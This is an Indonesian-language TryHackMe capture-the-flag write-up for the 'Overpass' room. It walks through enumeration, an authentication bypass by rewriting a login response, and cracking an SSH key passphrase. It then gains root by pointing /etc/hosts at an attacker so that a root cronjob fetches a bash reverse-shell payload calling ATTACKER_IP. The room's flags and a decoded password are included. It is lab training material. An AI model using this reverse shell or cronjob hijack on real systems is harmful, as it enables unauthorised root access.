






# Overpass — TryHackMe Writeup

**Target:** Overpass  
**Platform:** TryHackMe  
**Difficulty:** Easy  
**Kategori:** Web Enumeration, Authentication Bypass, SSH, Privilege Escalation

---

## Recon

Seperti biasa dimulai dengan Rustscan untuk melakukan port scanning.

```bash
rustscan -b 500 -a TARGET_IP
```



Website berjalan di port 80.

---

## Web Enumeration

Saya mengakses website yang berjalan pada port 80.



Website ini merupakan password manager. Saya kemudian mencoba melihat source code untuk memahami bagaimana aplikasi tersebut bekerja.

Di source code ditemukan fungsi encryption:

```go
//Secure encryption algorithm from https://socketloop.com/tutorials/golang-rotate-47-caesar-cipher-by-47-characters-example
func rot47(input string) string {
	var result []string
	for i := range input[:len(input)] {
		j := int(input[i])
		if (j >= 33) && (j <= 126) {
			result = append(result, string(rune(33+((j+14)%94))))
		} else {
			result = append(result, string(input[i]))
		}
	}
	return strings.Join(result, "")
}
```

Walaupun fungsi tersebut bernama `rot47`, implementasinya menggunakan `+14`, sehingga sebenarnya karakter printable ASCII digeser sebanyak 14 posisi.

---

## Directory Enumeration

Saya melakukan directory enumeration menggunakan Gobuster dengan extension `.js`.

```bash
gobuster dir -u http://TARGET_IP/ -w ~/wordlists/common.txt -x js
```



Setelah melakukan enumerasi, saya tidak menemukan credential secara langsung.

Hint dari room mengatakan:

> OWASP Top 10 vuln, do not bruteforce.

Saya kemudian kembali melihat source code, khususnya `login.js`.

---

## Authentication Bypass

Dari `login.js`, terlihat bahwa login dilakukan dengan mengirim request ke:

```text
POST /api/login
```

Kemudian response digunakan sebagai `SessionToken`.

Bagian yang menarik:

```javascript
if (statusOrCookie === "Incorrect credentials") {
    loginStatus.textContent = "Incorrect Credentials"
    passwordBox.value=""
} else {
    Cookies.set("SessionToken",statusOrCookie)
    window.location = "/admin"
}
```

Frontend hanya menganggap login gagal jika response persis sama dengan:

```text
Incorrect credentials
```

Selain itu, response akan dianggap sebagai `SessionToken` dan browser langsung diarahkan ke `/admin`.

Artinya terdapat kelemahan pada authentication logic karena frontend tidak melakukan validasi authentication state dengan benar.

Saya kemudian melakukan intercept terhadap response dan mengganti response `Incorrect credentials` menggunakan match and replace.



Dengan perubahan tersebut, login berhasil di-bypass dan saya mendapatkan akses ke `/admin`.

Dari halaman tersebut saya mendapatkan encrypted SSH private key.

---

## SSH Private Key

Private key yang didapat kemudian saya convert menggunakan `ssh2john`:

```bash
ssh2john id_rsa > hash.txt
```

Kemudian hash tersebut di-crack menggunakan John the Ripper:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Password berhasil ditemukan.

Saya kemudian menggunakan private key tersebut untuk login sebagai user `james` melalui SSH.



---

## User Enumeration

Setelah mendapatkan shell sebagai `james`, saya melakukan enumerasi pada home directory.

Di `/home/james` terdapat `todo.txt`:

```text
To Do:
> Update Overpass' Encryption, Muirland has been complaining about it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

Terdapat juga file `.overpass`:

```text
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN
```

Dengan menggunakan algoritma encryption yang ditemukan sebelumnya, string tersebut dapat di-decode menjadi:

```json
[{"name":"System","pass":"saydrawnlyingpicture"}]
```

---

## Privilege Escalation

Selanjutnya saya mengecek `/etc/crontab`.

Ditemukan custom cronjob:

```text
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Cronjob tersebut berjalan setiap menit sebagai `root`.

Hal yang menarik adalah hostname `overpass.thm` digunakan untuk mengambil file:

```text
/downloads/src/buildscript.sh
```

Saya kemudian mengecek permission `/etc/hosts`:

```text
-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
```

Karena `/etc/hosts` writable, hostname `overpass.thm` dapat diarahkan ke mesin attacker.

Saya mengubah entry `/etc/hosts` menjadi:

```text
ATTACKER_IP overpass.thm
```

Kemudian pada mesin attacker saya membuat file:

```text
downloads/src/buildscript.sh
```

Isi file tersebut:

```bash
#!/bin/bash

bash -i >& /dev/tcp/ATTACKER_IP/9004 0>&1
```

HTTP server kemudian dijalankan dari directory yang menjadi root dari path `downloads`:

```bash
python3 -m http.server 80
```

Saya juga menjalankan listener:

```bash
nc -lvnp 9004
```

Karena cronjob dijalankan sebagai root setiap menit, target akan melakukan request ke attacker dan menjalankan `buildscript.sh` menggunakan `bash`.

Setelah menunggu cronjob berjalan, reverse shell berhasil diterima dan saya mendapatkan root shell.



---

## Flags

**User flag:**

```text
thm{65c1aaf000506e56996822c6281e6bf7}
```

**Root flag:**

```text
thm{7f336f8c359dbac18d54fdd64ea753bb}
```
